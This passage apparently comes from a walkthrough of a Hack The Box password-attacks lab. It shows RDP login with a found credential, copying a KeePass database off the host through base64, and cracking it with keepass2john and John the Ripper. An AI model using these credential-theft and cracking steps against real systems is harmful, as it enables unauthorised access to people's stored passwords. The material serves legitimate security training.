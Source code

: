     xfreerdp /v:password-attacks-3.htb /u:johanna /p:'1231234!' /d:inlanefreight.htb /cert:ignore /dynamic-resolution
    # this works
    ```
  
  * As we have RDP access, we can open File Explorer and start manual enumeration first. We can also enable settings to view hidden files & folders.

  * The Recent Files section shows a file 'Logins.kdbx' in the Documents folder; the Downloads folder has some useful tools for inspection, but nothing much other than these files

  * We can transfer the .kdbx file to our machine:

    ```ps
    # as it is a small file, we can use PowerShell base64 method

    # in PowerShell, get MD5 hash of file
    Get-FileHash "C:\Users\johanna\Documents\Logins.kdbx" -Algorithm MD5 | select Hash

    # convert file to base64
    [Convert]::ToBase64String((Get-Content -path "C:\Users\johanna\Documents\Logins.kdbx" -Encoding byte))
    # copy the complete base64 string

    # in attacker machine
    echo <base64 string> | base64 -d > Logins.kdbx

    md5sum Logins.kdbx
    # the MD5 hash should match

    # this is a KeePass file
    # we can attempt to crack it

    keepass2john Logins.kdbx > keepass-hash

    john --wordlist=mut_pass.list keepass-hash
    # this gives us the password "Qwerty7!"

    # we can open .kdbx file using Keepass
    sudo apt install keepassx
